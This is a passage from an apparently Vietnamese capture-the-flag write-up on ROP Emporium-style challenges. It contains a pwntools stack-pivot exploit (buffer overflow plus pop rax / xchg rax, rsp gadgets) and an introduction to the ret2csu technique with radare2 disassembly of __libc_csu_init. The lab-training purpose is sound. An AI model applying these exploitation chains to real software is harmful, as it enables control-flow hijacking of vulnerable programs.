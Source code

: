 ```text-x-python

line2 = p.recvuntil(b'>')
print(line2)

payload2 = b'A'*40
payload2 += p64(0x4009bb) #0x00000000004009bb: pop rax; ret;
payload2 += p64(heap_addr)
payload2 += p64(0x4009bd) # 0x00000000004009bd: xchg rax, rsp; ret;
p.sendline(payload2)

line3 = p.recvuntil('libpivot')
print(line3)

# leak_foothold_got = p.recv(8)
# print(leak_foothold_got.hex())

print(p.recvall())

# p.interactive()
```

## Ret2csu
Challenge 8 tương tự Challenge 3 Callme, tuy nhiên ta sẽ sử dụng phương pháp khác để lấy kiểm soát các giá trị rdi, rsi, rdx (3 thanh ghi  chứa tham số arg1, arg2, arg3)

[https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf)

Ở đây ta sẽ có 2 Gadget, sử dụng radare2 để disassemble function \_\_libc\_csu\_init\_\_

```text-plain
 radare2 ret2csu 
[0x00400520]> aaa
[0x00400520]> afl
...
0x00400640    4 101          sym.__libc_csu_init
...
[0x00400520]> s sym.__libc_csu_init
[0x00400640]> pdf
            ; DATA XREF from entry0 @ 0x400536
┌ 101: sym.__libc_csu_init (int64_t arg1, int64_t arg2, int64_t arg3);
│           ; arg int64_t arg1 @ rdi
│           ; arg int64_t arg2 @ rsi
│           ; arg int64_t arg3 @ rdx
│           0x00400640      4157           push r15
│           0x00400642      4156           push r14
│           0x00400644      4989d7         mov r15, rdx                ; arg3
│           0x00400647      4155           push r13
│           0x00400649      4154           push r12
│           0x0040064b      4c8d259e0720.  lea r12, obj.__frame_dummy_init_array_entry ; loc.__init_array_start
│                                                                      ; 0x600df0
│           0x00400652      55             push rbp
│           0x00400653      488d2d9e0720.  lea rbp, obj.__do_global_dtors_aux_fini_array_entry ; loc.__init_array_end
│                                                                      ; 0x600df8
│           0x0040065a      53             push rbx
│           0x0040065b      4189fd         mov r13d, edi               ; arg1
│           0x0040065e      4989f6         mov r14, rsi                ; arg2
│           0x00400661      4c29e5         sub rbp, r12
│           0x00400664      4883ec08       sub rsp, 8
│           0x00400668      48c1fd03       sar rbp, 3
│           0x0040066c      e85ffeffff     call sym._init
```
